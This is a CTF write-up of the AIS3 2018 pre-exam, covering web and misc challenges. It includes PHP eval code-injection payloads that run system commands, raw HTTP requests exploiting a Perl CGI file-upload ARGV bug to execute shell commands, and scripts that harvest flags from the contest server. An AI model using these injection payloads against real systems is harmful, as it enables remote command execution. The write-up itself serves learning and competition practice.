

# AIS3 2018 Pre-exam

Author: WeiYu < zxc41329 [at] gmail.com >

Date: 2018.06.02

`這一次沒太多時間打 CTF，就變成玩一玩 Web 題目`



## Web 1 
    warm up web challenge.

    http://104.199.235.135:31331
#### 透過 header 去抓取 flag
- web1.py
``` python 
#!/usr/bin/env python
import subprocess

flag = ''

for id in range(0, 45):
    command = ('curl -i  http://104.199.235.135:31331/index.php?p=' + str(id))
    content = subprocess.check_output(command, shell=True)
    flag += content[content.find('Content-Length')-3]
    
print(flag)
```

The flag is `AIS3{g00d! u know how 2 check H3AD3R fie1ds.}`


## Web 2 - hidden
    Hmm ... no flag here!

    http://104.199.235.135:31332
#### 透過 `robots.txt` 可以發現 `_hidden_flag_.php`


- web2.py
``` python 
#!/usr/bin/env python
import urllib
import urllib2

url = 'http://104.199.235.135:31332/_hidden_flag_.php'
values = {'c' : '1', 's' : '3241b876891b9ea67db897e940db6ea9e7e351447546b8da82bbf3693dfe9ebb' }
 
for i in range(0, 99999):
    data = urllib.urlencode(values)
    req = urllib2.Request(url, data)
    response = urllib2.urlopen(req)
    f = response.info().getheader('Flag')
    page = response.read()

    t = page.find('name="c" value="') + 16
    values['c'] = page[t:page.find('"', t)]
 
    t = page.find('name="s" value="') + 16
    values['s'] = page[t: page.find('"', t)]
    print values

    if f != 'AIS3{NOT_A_VALID_FLAG}':
        print f
        raw_input('#')
```


Thr flag is `AIS3{g00d_u_know_how_2_script_4_W3B_bdedc4e1a48c9769ac35b12f13dc4bbc}` 


## Web 3 - sushi
    Try some delicious sushi at

    http://104.199.235.135:31333/

- Source Code
``` php
<?php
// PHP is the best language for hacker
// Find the flag !!
highlight_file(__FILE__);
$_ = $_GET['🍣'];

if( strpos($_, '"') || strpos($_, "'") ) 
    die('Bad Hacker :(');

eval('die("' . substr($_, 0, 16) . '");');
```

#### 用 php code injection 繞過 php 限制。
- http://104.199.235.135:31333/?🍣={${system(ls)}}
- http://104.199.235.135:31333/?🍣=${@system(ls)}
- http://104.199.235.135:31333/?🍣=".\`$_GET[1]\`.";&1=ls


- http://104.199.235.135:31333/flag_name_1s_t00_l0ng_QAQQQQQQ
    


The flag is `AIS3{php_is_very_very_very_easyyyyyy}`


## Web 4 - perljam
    I think that is a perfect web app.

    http://104.199.235.135:31334/

#### 有 [GitHack](https://github.com/lijiejie/GitHack) 漏洞，可以把[原始碼](/web4/GitHack)抓下來。
#### 可以從 Reference 看到原始碼有漏洞，嘗試製作封包。

#### Request 1
``` HTML
POST /cgi-bin/index.cgi?/bin/bash%20-c%20ls${IFS}/| HTTP/1.1
Host: 104.199.235.135:31334
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: __cfduid=d6ef413399798aba40580af74aa4ed9001474100452
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------1308552532609826431173673727
Content-Length: 475

-----------------------------1308552532609826431173673727
Content-Disposition: form-data; name="file"
Content-Type: text/plain

ARGV
-----------------------------1308552532609826431173673727
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain

abcd
-----------------------------1308552532609826431173673727
Content-Disposition: form-data; name="Submit!"

Submit!
-----------------------------1308552532609826431173673727--
```

#### Response 1


#### Request 2
``` HTML 
POST /cgi-bin/index.cgi?/readflag| HTTP/1.1
Host: 104.199.235.135:31334
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: __cfduid=d6ef413399798aba40580af74aa4ed9001474100452
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------1308552532609826431173673727
Content-Length: 475

-----------------------------1308552532609826431173673727
Content-Disposition: form-data; name="file"
Content-Type: text/plain

ARGV
-----------------------------1308552532609826431173673727
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain

QAQQQ
-----------------------------1308552532609826431173673727
Content-Disposition: form-data; name="Submit!"

Submit!
-----------------------------1308552532609826431173673727--
```

#### Response 2


The flag is `AIS3{here_is_your_flag}`

### Reference
- https://tsublogs.wordpress.com/2016/09/18/606/
- https://github.com/73696e65/ctf-notes/blob/master/2016-ctf.csaw.io/web-200-i_got_id.md


## Misc 1 - welcome
    flag is next to you

    p.s. please watch the video in the index page, the flag is inside the video.

The flag is `AIS3{Maybe_This_is_the_Flag_You_Want}`


## Misc 2 - flags
    Easy to find the flag, isn't it?
### Hint
```
Check the line under the AIS3{Not_This_One}

Do you see any different?
```
#### 整人題呀!!!! 連續三個地方都不是正確 Flag...


- **摩斯密碼表**


- 摩斯密碼 


The flag is `AIS3{YOUFINDTHEREALFLAGOHYEAH}`


### Misc 3 - svega
    Still listen in 2018?!

    Suzanne Vega - Tom's Diner   
#### 使用 MP3 Stego 秒解

Command: `decode -X sevga.mp3`


- decode 完後，flag 會在 svega.mp3.txt


The flag is `AIS3{I_HearD_imPlIeD_Fl46_1N_TH3_5oN6}`